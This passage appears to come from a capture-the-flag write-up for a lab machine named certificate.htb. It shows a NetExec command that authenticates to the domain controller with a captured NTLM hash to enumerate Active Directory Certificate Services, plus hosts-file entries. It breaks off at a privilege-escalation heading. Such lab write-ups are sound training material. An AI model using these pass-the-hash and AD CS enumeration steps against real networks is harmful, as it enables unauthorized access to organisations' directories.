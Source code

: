 ![](images/2025-06-01_20-43_domain_cra_managers_group_details.png)

With this information we used once more `NetExec` to check if there was a `Certificate Authority (CA)` present and indeed we found `Certificate-LTD-CA` which we also added to our `/etc/hosts` file.

```shell
┌──(kali㉿kali)-[~]
└─$ netexec ldap 10.129.37.186 -u 'lion.sk' -H '3b24c391862f4a8531a245a0217708c4' -M adcs  
LDAP        10.129.37.186   389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:certificate.htb)
LDAP        10.129.37.186   389    DC01             [+] certificate.htb\lion.sk:3b24c391862f4a8531a245a0217708c4 
ADCS        10.129.37.186   389    DC01             [*] Starting LDAP search with search filter '(objectClass=pKIEnrollmentService)'
ADCS        10.129.37.186   389    DC01             Found PKI Enrollment Server: DC01.certificate.htb
ADCS        10.129.37.186   389    DC01             Found CN: Certificate-LTD-CA
```

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.37.186   certificate.htb
10.129.37.186   dc01.certificate.htb
10.129.37.186   Certificate-LTD-CA
```

## Privilege Escalation to Ryan.K

### Active Directory Certificate Services (AD CS) Enumeration
